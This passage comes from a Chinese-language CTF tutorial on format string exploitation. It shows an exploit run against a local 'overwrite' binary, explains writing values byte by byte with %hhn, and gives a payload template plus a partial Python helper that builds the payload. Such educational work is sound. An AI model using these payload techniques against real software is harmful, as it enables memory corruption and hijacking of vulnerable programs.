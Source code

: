 对应的结果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 76508
[*] Process './overwrite' stopped with exit code 0 (pid 76508)
0xffc1729c
aaaa$\xa0\x0modified a for a small number.
```

其实，这里我们需要掌握的小技巧就是，我们没有必要必须把地址放在最前面，放在那里都可以，只要我们可以找到其对应的偏移即可。

#### 覆盖大数字

上面介绍了覆盖小数字，这里我们就介绍覆盖大数字了。上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，在x86和x64的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12。再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志：

```text
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```

所以说，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。这里，我们以单字节为例。

首先，我们还是要确定的是要覆盖的地址为多少，利用ida看一下，可以发现地址为0x0804A028。

```text
.data:0804A028                 public b
.data:0804A028 b               dd 1C8h                 ; DATA XREF: main:loc_8048510r
```

即我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

```text
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```

首先，由于我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的

```text
p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```

我们可以依次进行计算。这里给出一个基本的构造，如下

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
```